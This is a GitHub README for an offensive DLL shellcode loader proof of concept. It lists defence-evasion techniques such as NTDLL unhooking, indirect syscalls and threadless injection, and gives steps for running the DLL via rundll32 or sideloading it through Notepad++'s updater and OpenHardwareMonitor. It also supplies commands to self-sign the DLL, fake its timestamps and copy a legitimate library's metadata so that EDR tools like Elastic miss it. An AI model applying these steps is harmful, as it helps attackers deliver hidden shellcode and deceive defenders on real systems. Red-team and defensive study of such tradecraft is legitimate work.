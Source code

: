 [![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)
[![Follow @JimKwik_X](https://img.shields.io/twitter/follow/JimKwik_X?style=social)](https://x.com/JimKwik_X)

# A DLL Shellcode Loader POC

![image](Images/loader.png)

# Techniques used:
- NTDLL.dll unhooking
- Indirect Syscalls
- Rop Gadgets 
- Anti analysis by self deleting after execution
- [Threadless injection](https://github.com/CCob/ThreadlessInject) with  with HWBP
- Remote payload download over HTTPs with a customed header for authtication
- VEH unhooking
- DLL sideload
- Payload AES encryption on the fly 

Compile in Visual Studio -> `x64` -> `Release`

# Usage:

# **Run by Rundll32.exe**

Add `#Define badger` on the top of [dllmain.c](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c) as the entry point is defined in [here](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c#L199)

Run as:

```js
rundll32.exe Dllloader.dll,run
```

# **Sideload [Notepad++](https://notepad-plus-plus.org/)**

1. Add `#Define NOTEPAD` on the top of [dllmain.c](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c) as the entry point is defined in [here](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c#L212)

2. Rename `Dllloader.dll` to `libcurl.dll` and place it in [updater](./updater/) folder

3. Run `updater.exe` in the update folder to sideload the dll

# **Sideload [OpenHardwareMonitor](https://openhardwaremonitor.org/)**

1. Add `#Define MONITOR` on the top of [dllmain.c](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c) as the entry point is defined in [here](https://github.com/JimKw1kX/Dll-Shellcode-Loader/blob/main/DllLoader/DllLoader/dllmain.c#L169)


2. Rename `Dllloader.dll` to `DWrite.dll` and place it in [OpenHardwareMonitor](./OpenHardwareMonitor/OpenHardwareMonitor/) folder

3. Run `OpenHardwareMonitor.exe` in the update folder to sideload the dll



# 💡Tips:

- Use signtool to sign a ceritifcate on the DLL some EDRs flag unsigned dlls straightaway such as Elastic and change the date similar to the orginal 

![elastic](./Images/Elastic.png)

- **Signtool Powershell commands**

```js
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -sha256 -days 365

openssl pkcs12 -inkey key.pem -in cert.pem -export -out sign.pfx

signtool sign /f sign.pfx /p password /t http://timestamp.digicert.com /fd sha256 DWrite.dll

```
- **Changing dates**

```js
$x = "DWrite.dll"
$(Get-Item $x).creationtime=$(Get-Date "03/3/2024")
$(Get-Item $x).lastwritetime=$(Get-Date "03/3/2022")
$(Get-Item $x).lastaccesstime=$(Get-Date "07/23/2024")
```

- **Add metadata to the DLL and do not leave it blank**#


Add a `Resource.rc` file in Visual Studio and the following metadata for `DWrite.dll` so it looks like this

![DWrite](./Images/Dwritre.png)

```js
1 VERSIONINFO
 FILEVERSION 9.6.0.0 // File version separated by commas
 PRODUCTVERSION 0.9.6.0
 FILEFLAGSMASK 0x0L
#ifdef _DEBUG
 FILEFLAGS 0x1L
#else
 FILEFLAGS 0x0L
#endif
 FILEOS 0x0L
 FILETYPE 0x0L
 FILESUBTYPE 0x0L
BEGIN
    BLOCK "StringFileInfo"
    BEGIN
        BLOCK "040904B0"
        BEGIN 
            // Modify the values below
            VALUE "CompanyName", "(C) 2009-2020 Michael Möller"
            VALUE "FileDescription", "Open Hardware Monitor Library"
            VALUE "InternalName", "Chrome"
            VALUE "LegalCopyright", "(C) 2009-2020 Michael Möller"
            VALUE "OriginalFilename", "OpenHardwareMonitorLib.dll"
            VALUE "ProductName", "Open Hardware Monitor Library"
            VALUE "ProductVersion", "0.9.6"
        END
    END
    BLOCK "VarFileInfo"
    BEGIN
        VALUE "Translation", 0x409, 1200
    END
END
```


# ⚠️ Disclaimer: 
Always tweak the code during an enagament, this is just a POC but its not good to add everything in one loader. Its better to use stagers to prevent the main C2 shellcode gets burnt. 

# Video Demo

Click [here](https://drive.google.com/file/d/1LenFbhhj8n7esZXn6NXPdZ-pDy8bTdjx/view) to see the full demo.
